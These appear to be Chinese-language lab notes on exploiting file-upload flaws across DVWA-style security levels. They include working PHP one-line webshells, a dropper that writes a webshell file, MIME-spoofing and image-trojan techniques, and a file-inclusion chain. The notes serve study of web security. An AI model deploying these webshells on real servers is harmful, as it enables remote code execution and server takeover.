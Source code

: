 ![image](images/78C10D503C124D67B2CA3A588BB31804clipboard.png)

# 低安全的上传

可以直接上传PHP一句话木马

# 中级

会对上传的文件进行类型判断

只需通过burpsuite修改MIME为image/png即可

# 高级

通过上传图片木马，然后结合文件包含漏洞即可

需要修改图片中的木马为：

```php
<?php fputs(fopen('muma.php','w'),'<?php @eval($_POST[hack]);?>'); ?>
```

然后通过文件包含漏洞，执行上面代码，会生产rl.php的小马

# 图片木马制作过程

以下为CMD下用copy命令制作“图片木马”的步骤，其中，a.jpg/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件。

```cmd
copy a.jpg/b+hack.php/a hack.jpg
```

# php一句话木马

```php
 <?php @eval($_POST['cmd']); ?>
```

# Apache htaccess文件绕过

![image](images/166EEFBBC0E84B79BE7F8EBF9B625112clipboard.png)

# 资料

文件上传漏洞总结

https://zhuanlan.zhihu.com/p/44370136

Web安全-一句话木马

https://blog.csdn.net/weixin_39190897/article/details/86772765

PHP一句话简单免杀

https://www.cnblogs.com/Secde0/p/13902819.html